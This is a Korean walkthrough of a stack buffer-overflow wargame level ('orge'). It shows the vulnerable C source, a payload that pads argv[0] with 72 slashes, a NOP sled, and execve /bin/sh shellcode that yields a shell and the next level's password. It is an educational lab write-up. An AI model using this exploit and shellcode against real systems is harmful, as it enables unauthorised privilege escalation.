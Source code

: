 # dakrelf -> orge

``` C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orge
        - check argv[0]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // here is changed!
        if(strlen(argv[0]) != 77){
                printf("argv[0] error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

전 단계와 달라진 점은 argv[0]의 길이를 확인하는 함수가 추가된 것이다. argv[0] 즉, 실행 파일명(ex, ./orge, /tmp/dirorge/orge, ~/orge 등등)을 말한다.
원래의 실행 파일명은 ./orge이므로 '/'를 72개로 늘려서 payload를 작성해 주면 된다.

```
mkdir /tmp/dirorge
cd /tmp/dirorge
cp ~/orge .
```
위의 명령어로 orge파일을 tmp 디렉토리에 옮긴 후 시작하였다.

```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` a
stack is still your friend.
```
위의 코드를 통해 argv[0]의 길이를 체크하는 조건문은 통과한 것을 알 수 있다. 뒤에 a는 argc를 체크하는 인자를 통과하기 위해서 작성하였다.
이제 저 코드와 argv[1], argv[2]를 이용해 payload를 작성해보자.

```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` `python -c 'print "A"*44+"\xbf\xbf\xbf\xbf "+"\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿¿¿¿
Segmentation fault (core dumped)
[darkelf@localhost dirorge]$ gdb -q -c core
Core was generated by `.////////////////////////////////////////////////////////////////////////orge A'.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
```
argv[2]의 주소 (RET이 될 부분, NOP의 주소 중 한 곳을 고르면 됨)를 찾기 위해 core 파일을 확인해 봤다.

```
(gdb) x/80x $esp
(생략)
0xbffff7d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7e0:     0xbfbfbfbf      0x90909000      0x90909090      0x90909090
0xbffff7f0:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff800:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff810:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff820:     0x90909090      0x90909090      0x90909090      0x90909090
```

RET을 0xbffff7f0로 사용하였다.

payload = argv[0]의 파일 명 수정한 코드 + argv[1](buf[40] + SFP[4] + RET[4]) + argv[2](SHELLCODE)
```
[darkelf@localhost dirorge]$ `python -c 'print "."+"/"*72+"orge"'` `python -c 'print "A"*44+"\xf0\xf7\xff\xbf "+"\x90"*10000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAð÷ÿ¿
bash$ my-pass
euid = 507
timewalker
```





